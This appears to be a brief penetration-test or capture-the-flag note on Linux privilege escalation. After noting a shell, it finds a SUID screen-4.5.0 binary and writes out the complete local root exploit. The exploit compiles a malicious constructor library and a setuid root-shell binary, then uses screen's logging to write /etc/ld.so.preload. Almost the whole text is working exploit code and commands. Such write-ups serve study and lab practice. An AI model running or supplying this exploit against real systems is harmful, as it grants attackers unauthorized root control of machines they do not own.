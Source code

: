 got shell.



# Privesc



## loca enum

found suid file, screen-4.5.0 

exploit, https://www.exploit-db.com/exploits/41154



## system

compile local on kali. arm not work

```bash
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF

gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c

cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF

gcc -o /tmp/rootshell /tmp/rootshell.c
```



exploit

```bash
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed

screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```
